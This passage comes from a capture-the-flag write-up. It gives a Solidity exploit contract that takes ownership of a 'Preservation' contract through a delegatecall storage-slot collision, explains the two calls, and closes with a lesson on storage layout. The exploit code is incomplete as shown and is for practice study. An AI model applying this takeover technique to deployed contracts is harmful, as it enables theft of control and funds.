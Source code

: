 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Preservation} from "./Preservation.sol";

contract ExploitPreservation{
    Preservation preservation;
    uint256 addr=uint160(address(this));
    address public owner;

    constructor(address _addr){
        preservation=Preservation(_addr);
    }

    function setTime(uint256 _time)public{
        owner= // __YOUR__CONTRACT__ADDRESS;
    }

    function Exploit()public{
        preservation.setFirstTime(addr);
        preservation.setFirstTime(addr);
    }


}

```

In the `setTime()` function, first it calls `setFirstTime()` with our exploit contract address. Once the first line is executed, `timeZone1Library` is set to our exploit contract address. When the second line is executed, the next call will be made to our exploit contract, calling the `setTime()` function. In the `setTime()` function in our exploit contract, we are changing the value at `slot2`, so it will change the value at `slot2` in the `Preservation` contract. In the `Preservation` contract, `slot2` is used for the owner's address. Once the `Exploit()` call is done, our challenge will be completed.

Don't forget to change the address of the owner in the `setTime()` function in the `ExploitPreservation` contract to your wallet address.

Once the calls are done, you can check whether the owner is changed or not by entering the following in the console:

```javascript
> await contract.owner()
```

You have learned a lot of things. Make sure you understand everything clearly, especially delegate calls.

### Key Takeaways

When using delegate calls, it is important to ensure that the two contracts have the same storage layout. This means that the variables in both contracts should be in the same order and have the same data types. By doing so, the delegate call can correctly access and modify the desired variables in the calling contract.
